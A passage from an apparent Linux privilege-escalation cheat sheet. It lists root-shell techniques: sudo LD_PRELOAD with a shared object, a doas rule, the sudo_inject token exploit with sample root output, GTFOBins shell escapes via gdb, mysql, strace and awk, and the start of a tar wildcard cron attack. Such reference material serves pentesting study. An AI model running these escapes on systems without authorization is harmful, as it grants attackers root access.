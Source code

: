 Execute any binary with the LD_PRELOAD to spawn a shell :  `sudo LD_PRELOAD=/tmp/shell.so find`

&nbsp;

### DOAS

There are some alternatives to the  `sudo`  binary such as  `doas`  for OpenBSD, remember to check its configuration at  `/etc/doas.conf`

```
permit nopass local_host as root cmd vim
```
&nbsp;


### SUDO_INJECT

Using  [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password.
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```
&nbsp;


## 4] GTFOBins

[GTFOBins](https://gtfobins.github.io/)  is a collection of scripts that can be used to bypass local security restrictions in various applications and services. These scripts leverage various features or misconfigurations in these applications to allow an attacker to run arbitrary commands with escalated privileges.

> gdb -nx -ex ‘!sh’ -ex quit  
> sudo mysql -e ‘! /bin/sh’  
> strace -o /dev/null /bin/sh  
> sudo awk ‘BEGIN {system(“/bin/sh”)}’

&nbsp;

## 5] Wildcard
View the contents of the other cron job script:

cat /usr/local/bin/compress.sh

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

